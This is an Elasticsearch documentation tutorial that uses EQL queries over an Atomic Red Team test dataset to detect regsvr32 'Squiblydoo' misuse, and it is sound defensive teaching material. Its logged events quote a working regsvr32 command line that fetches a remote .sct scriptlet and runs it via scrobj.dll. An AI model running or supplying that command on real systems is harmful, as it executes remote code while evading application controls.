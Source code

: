 [role="xpack"]
[testenv="basic"]
[[eql-ex-threat-detection]]
== Example: Detect threats with EQL

experimental::[]

This example tutorial shows you how you can use EQL to detect security threats
and other suspicious behavior.

In the scenario, you're tasked with detecting
https://attack.mitre.org/techniques/T1218/010/[`regsvr32` misuse] in Windows event
logs. `regsvr32` misuse is a known adversary technique documented in the
https://attack.mitre.org[MITRE ATT&CK®] knowledge base.

[discrete]
[[eql-ex-threat-detection-setup]]
=== Setup

This tutorial uses a test dataset for `regsvr32` misuse from
https://github.com/redcanaryco/atomic-red-team[Atomic Red Team]. The dataset has
been normalized and mapped to use fields from the {ecs-ref}[Elastic Common
Schema (ECS)], including the `@timestamp` and `event.category` fields. The
dataset includes events that imitate behaviors related to `regsvr32` misuse, as
documented by MITRE ATT&CK®.

To get started, download and index the dataset:

. Download the https://raw.githubusercontent.com/elastic/elasticsearch/{branch}/docs/src/test/resources/normalized-T1117-AtomicRed-regsvr32.json[`normalized-T1117-AtomicRed-regsvr32.json`] dataset.

. Index the data into `my-index-000001` with the following <<docs-bulk,bulk
API>> request:
+
[source,sh]
----
curl -H "Content-Type: application/json" -XPOST "localhost:9200/my-index-000001/_bulk?pretty&refresh" --data-binary "@normalized-T1117-AtomicRed-regsvr32.json"
----
// NOTCONSOLE

. Use the <<cat-indices,cat indices API>> to verify the data was successfully
indexed.
+
[source,console]
----
GET /_cat/indices/my-index-000001?v&h=health,status,index,docs.count
----
// TEST[setup:atomic_red_regsvr32]
+
The API response should show a `docs.count` value of `150`, indicating 150
documents were indexed.
+
[source,txt]
----
health status index            docs.count
yellow open   my-index-000001         150
----
// TESTRESPONSE[non_json]

[discrete]
[[eql-ex-get-a-count-of-regsvr32-events]]
=== Get a count of `regsvr32` events

Since you're looking for `regsvr32` misuse, start by getting a count of any
events associated with a `regsvr32.exe` process.

The following <<eql-search-api,EQL search API>> request uses an EQL query to
retrieve a count of events with a `process.name` of `regsvr32.exe`. The query
starts with the <<eql-syntax-match-any-event-category,`any where` keywords>>,
meaning the query can match events of any <<eql-required-fields,event
category>>.

[source,console]
----
GET /my-index-000001/_eql/search?filter_path=-hits.events   <1>
{
  "query": """
    any where process.name == "regsvr32.exe"                <2>
  """,
  "size": 200                                               <3>
}
----
// TEST[setup:atomic_red_regsvr32]

<1> Uses the `?filter_path=-hits.events` query parameter to exclude the
`hits.events` property from the response. The `hits.events` property contains
the document source for any matching events. This request is intended to
retrieve a count of events only.
<2> Uses an EQL query to match events with a `process.name` of `regsvr32.exe`.
<3> Returns up to 200 events or sequences matching the EQL query.

The request returns the following response, indicating that 143 events match the
query.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 60,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 143,
      "relation": "eq"
    }
  }
}
----
// TESTRESPONSE[s/"took": 60/"took": $body.took/]

[discrete]
[[eql-ex-check-for-command-line-artifacts]]
=== Check for command line artifacts

Based on your previous query, you know `regsvr32` processes were associated with
143 events. But how was `regsvr32.exe` first called? And who called it?

`regsvr32` is a command-line utility so it may help to narrow your results to
processes where the command line was used.

Update the previous EQL query as follows:

* Change the `any` keyword to `process`. This limits matches to events with an
`event.category` of `process`.
* Add the `and process.command_line != null` condition to match only
events with a command line value.

You'll also need to remove the `filter_path=-hits.events` query parameter. This
lets you retrieve the document source for any matching events.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    process where process.name == "regsvr32.exe" and process.command_line != null
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches one process event. The event has an `event.type` of
`creation`, indicating the start of a `regsvr32.exe` process.

Based on the `process.command_line` value, `regsvr32.exe` used `scrobj.dll` to
register a script, `RegSvr32.sct`. This fits the behavior of a
https://attack.mitre.org/techniques/T1218/010/["Squiblydoo" attack], a known
variant of `regsvr32` misuse.

The response also includes other valuable information about how the
`regsvr32.exe` process started, such as the `@timestamp`, the associated
`user.id`, and the `process.parent.name`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 21,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "my-index-000001",
        "_type": "_doc",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "creation"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 21/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-check-for-malicious-script-loads]]
=== Check for malicious script loads

You now know that a `regsvr32.exe` process was used to register a potentially
malicious script, `RegSvr32.sct`. Next, see if `regsvr32.exe` later loads the
`scrob.dll` library.

Modify the previous EQL query as follows:

* Change the `process` keyword to `library`.
* Replace the `process.command_line != null` condition with
`dll.name == "scrobj.dll`.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    library where process.name == "regsvr32.exe" and dll.name == "scrobj.dll"
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches an event, confirming `scrobj.dll` was later loaded by
`regsvr32.exe`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 5,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "my-index-000001",
        "_type": "_doc",
        "_id": "ol5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable": "C:\\Windows\\System32\\regsvr32.exe"
          },
          "@timestamp": 131883573237450016,
          "dll": {
            "path": "C:\\Windows\\System32\\scrobj.dll",
            "name": "scrobj.dll"
          },
          "event": {
            "category": "library"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 5/"took": $body.took/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-detemine-likelihood-of-sucess]]
=== Determine likelihood of success

In many cases, malicious scripts are used to connect to remote servers or
download other files. If this occurred, the attack might have succeeded.

Use an <<eql-sequences,EQL sequence query>> to check for the following series of
events, in order:

. A `regsvr32.exe` process, which could have been used to register malicious
scripts as `scrobj.dll`
. A load of the `scrobj.dll` library by the same process
. Any network event by the same process, which could indicate the download of a
remote file

To match, each event in the sequence must share the same process ID, recorded in
the `process.pid` field.

Based on the command line value seen in the previous result, you can expect to
find a match. However, the sequence query isn't designed for that specific
command. Instead, it looks for a pattern of suspicious behavior while still
being generic enough to detect similar threats in the future.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == 'regsvr32.exe']
      [library where dll.name == 'scrobj.dll']
      [network where true]
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches a sequence, indicating the attack likely succeeded.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 25,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          2012
        ],
        "events": [
          {
            "_index": "my-index-000001",
            "_type": "_doc",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_version": 1,
            "_seq_no": 3,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
                "category": "process",
                "type": "creation"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            }
          },
          {
            "_index": "my-index-000001",
            "_type": "_doc",
            "_id": "ol5MJXMBMk1dGnErnBW8",
            "_version": 1,
            "_seq_no": 5,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573237450016,
              "dll": {
                "path": "C:\\Windows\\System32\\scrobj.dll",
                "name": "scrobj.dll"
              },
              "event": {
                "category": "library"
              }
            }
          },
          {
            "_index": "my-index-000001",
            "_type": "_doc",
            "_id": "EF5MJXMBMk1dGnErnBa9",
            "_version": 1,
            "_seq_no": 24,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573238680000,
              "destination": {
                "address": "151.101.48.133",
                "port": "443"
              },
              "source": {
                "address": "192.168.162.134",
                "port": "50505"
              },
              "event": {
                "category": "network"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              },
              "network": {
                "protocol": "tcp",
                "direction": "outbound"
              }
            }
          }
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 25/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.0._id/]
// TESTRESPONSE[s/"_seq_no": 3/"_seq_no": $body.hits.sequences.0.events.0._seq_no/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.1._id/]
// TESTRESPONSE[s/"_seq_no": 5/"_seq_no": $body.hits.sequences.0.events.1._seq_no/]
// TESTRESPONSE[s/"_id": "EF5MJXMBMk1dGnErnBa9"/"_id": $body.hits.sequences.0.events.2._id/]
// TESTRESPONSE[s/"_seq_no": 24/"_seq_no": $body.hits.sequences.0.events.2._seq_no/]
